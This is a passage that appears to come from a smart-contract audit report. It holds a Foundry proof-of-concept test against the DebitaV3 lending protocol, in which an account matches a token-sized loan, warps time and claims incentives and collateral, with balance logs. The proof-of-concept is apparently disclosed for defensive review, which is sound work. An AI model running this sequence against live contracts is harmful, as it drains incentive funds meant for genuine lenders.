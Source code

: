 ```solidity
        assertEq(LendOrder.getLendInfo().owner,BorrowOrder.getBorrowInfo().owner);

        //after 30 days
        vm.warp(block.timestamp + 30 days);
        console.log("usdc balance before claim Incentives",IERC20(USDC).balanceOf(alice));
        vm.startPrank(alice);
        incentivesContract.claimIncentives(principles, tokensIncentives, 2);

        //Alice claim Collateral (100 USDC)
        DebitaV3LoanContract.claimCollateralAsLender(0);
        vm.stopPrank();
        //Alice usdc balance = 10e18 + 1e18(incentives) 
        console.log("usdc balance after claim Incentives",IERC20(USDC).balanceOf(alice));
        console.log("AERO balance after claim Incentives",AEROContract.balanceOf(alice));

        console.log("InterestToPay:",DebitaV3LoanContract.calculateInterestToPay(0));
    }


    function MatchOffers() internal {
        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexPrinciple_LendOrder[0] = 0;

        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 100;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = AERO;

        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);
    }
}

```
test result:
[PASS] testpoc() (gas: 1966985)
Logs:
  AERO balance before matchOffers 999999999999999999900
  AERO balance after matchOffers 1000000000000000000000